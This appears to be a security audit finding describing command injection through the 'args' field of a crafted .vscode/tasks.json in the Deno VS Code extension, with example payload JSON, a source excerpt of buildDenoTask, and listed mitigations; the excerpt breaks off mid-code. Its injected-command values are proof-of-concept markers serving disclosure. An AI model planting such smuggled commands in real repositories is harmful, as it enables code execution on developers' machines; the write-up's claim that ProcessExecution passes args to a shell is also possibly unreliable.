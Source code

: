 - Vulnerability Name: **Command Injection via `deno.task.args` in tasks.json**
  - Description:
    1. A threat actor creates a malicious repository with a crafted `.vscode/tasks.json` file.
    2. This `tasks.json` defines a Deno task where the `args` field contains malicious shell commands. For example:
       ```json
       {
         "version": "2.0.0",
         "tasks": [
           {
             "type": "deno",
             "command": "run",
             "args": [
               "`; touch /tmp/tasks-pwned; #`", // Malicious injection here
               "mod.ts"
             ],
             "problemMatcher": [
               "$deno"
             ],
             "label": "deno: run"
           }
         ]
       }
       ```
       (For Windows, use: `"args": ["\"; type C:\\windows\\system32\\calc.exe & echo \"]` )
    3. The victim clones or opens the malicious repository in VSCode.
    4. If the Deno extension is activated and the user attempts to run this task (e.g., via Tasks: Run Task or tasks sidebar if enabled), VSCode will execute the task.
    5. The `buildDenoTask` function in `client/src/tasks.ts` constructs a `ProcessExecution` using the provided `args` without sanitization.
    6. The system shell interprets and executes the injected malicious commands within the `args` array.
  - Impact: **Remote Code Execution (RCE)**.  The threat actor can execute arbitrary shell commands on the victim's machine when the victim runs the malicious task.
  - Vulnerability Rank: **High**
  - Currently implemented mitigations:
    - None. Task arguments are directly passed to `ProcessExecution`.
    - No input sanitization is performed on task arguments.
  - Missing mitigations:
    - Sanitize task arguments to prevent shell command injection. The extension should either disallow shell metacharacters or properly escape arguments before passing them to the shell.
    - Warn users about tasks from workspace settings, as they can be defined in malicious repositories.
  - Preconditions:
    - The victim must have the Deno extension installed and activated.
    - The victim must open a malicious repository containing a malicious `tasks.json`.
    - The victim must manually run the malicious task defined in `tasks.json`.
  - Source code analysis:
    - In `client/src/tasks.ts`, `buildDenoTask` function directly uses task `args` in `ProcessExecution`:
      ```typescript
      export function buildDenoTask(
        target: vscode.WorkspaceFolder,
        process: string,
        definition: DenoTaskDefinition,
        name: string,
        args: string[],
        problemMatchers: string[],
      ): vscode.Task {
        const exec = new vscode.ProcessExecution(
          process,
          args, // <= Unsanitized args from tasks.json
          definition,
        );
